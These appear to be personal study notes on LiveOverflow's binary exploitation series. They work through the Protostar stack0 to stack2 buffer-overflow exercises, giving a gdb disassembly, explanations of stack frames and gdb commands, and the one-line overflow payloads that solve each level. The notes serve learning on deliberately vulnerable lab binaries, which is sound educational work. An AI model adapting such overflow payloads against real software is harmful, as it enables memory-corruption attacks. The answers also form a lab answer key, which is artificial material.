

# LiveOverflow Binary Exploitation / Memory Corruption

### 0x09 - 0x0A

Mostly skipped as it deals with a lot of theory behind the linux kernel

### 0x0B - Smashing the stack for fun and profit

This section makes use of exploit.education's tutorials to teach concepts and commands revolving around binary exploitation, starting with protostar.

### 0x0C - Buffer Overflow

Protostar Stack0 Exercise: Accessing memory regions outside allocated region. Objective: change the `volatile int modified` variable.

Disassmebled Program:

```
(gdb) disassemble main
Dump of assembler code for function main:
0x080483f4 <main+0>:	push   ebp
0x080483f5 <main+1>:	mov    ebp,esp
0x080483f7 <main+3>:	and    esp,0xfffffff0
0x080483fa <main+6>:	sub    esp,0x60
0x080483fd <main+9>:	mov    DWORD PTR [esp+0x5c],0x0
0x08048405 <main+17>:	lea    eax,[esp+0x1c]
0x08048409 <main+21>:	mov    DWORD PTR [esp],eax
0x0804840c <main+24>:	call   0x804830c <gets@plt>
0x08048411 <main+29>:	mov    eax,DWORD PTR [esp+0x5c]
0x08048415 <main+33>:	test   eax,eax
0x08048417 <main+35>:	je     0x8048427 <main+51>
0x08048419 <main+37>:	mov    DWORD PTR [esp],0x8048500
0x08048420 <main+44>:	call   0x804832c <puts@plt>
0x08048425 <main+49>:	jmp    0x8048433 <main+63>
0x08048427 <main+51>:	mov    DWORD PTR [esp],0x8048529
0x0804842e <main+58>:	call   0x804832c <puts@plt>
0x08048433 <main+63>:	leave  
0x08048434 <main+64>:	ret  
```
Some explanation for the first few lines of main:



- `CALL 0x80483f4 <main>` basically calls the main function at address 0x080483f4 (updates EIP to point to 0x080483f4) and pushes the NEXT address 0xb7eadc76 to be executed on to the stack as this is the address we want to return to after the main function finishes executing

- Lazy to explain everything but what basically this segment of assembly does is that it sets up the stack frame of the main function starting from after we execute `mov ebp, esp`. ESP will be pointing to the top of this stack frame while EBP will be pointing to the bottom. Anything below the main function's stack frame is the stack frame of the previous function which called main

Things related to the lab:

- `(gdb) define hook-stop` (creates a function which auto-runs at every breakpoint)

- `(gdb) x/[NUMBER]wx VALUE` (examines content of a memory address. If you use a pointer, it will use the memory address that the pointer is pointing to. If add number, will show you the contents of the range of memory addresses [MEMORY_ADDRESS, MEMORY_ADDRESS+1])

- `(gdb) x/[NUMBER]i VALUE` (similar to x/wx but instead of counting how many words to print after the memory location, it counts the number instructions).

- Realise that we are storing 0x0 to esp+0x5c. We infer that the modified variable memory address is here as we are setting it to 0. $esp is hence an important register in finding out how many characters we need to overflow the buffer and modify the variable to clear the lab

### Answer for Stack Zero:

`python -c "print('A'*65)" | ./stack0`

- Must be more than 64

- How do we this? We look at $esp+0x5c, and we know that $esp is at 0xbffffc00, hence the memory location of the volatile variable starts at 0xbffffc5c. Overflowing the buffer in our stack frame using A, we observe that it only starts at 0xbffffc1c. 0xbffffc5c - 0xbffffc1c = 64 in decimal.

- You can also set a breakpoint before `test   eax,eax` and modify $rax=0x1111111 such that it will fail the next `je     0x8048427 <main+51>` conditional and proceed to print the "You have change the modified variable" text but since this is a buffer overflow lab, we will do it the way we are supposed to.

### Answer for Stack One:

`./stack1 "$(echo "$(python -c "print('A'*64+'dcba')")")"`

- 0x61626364 -> abcd

- reverse the order due to little endian format

### Answer for Stack Two:

`GREENIE=$(python -c 'print("A"*64 + "\x0a\x0d\x0a\x0d")') /opt/protostar/bin/stack2`

- Idea similar to Stack One

### References

https://exploit.education/

https://www.vulnhub.com/entry/exploit-exercises-protostar-v2,32/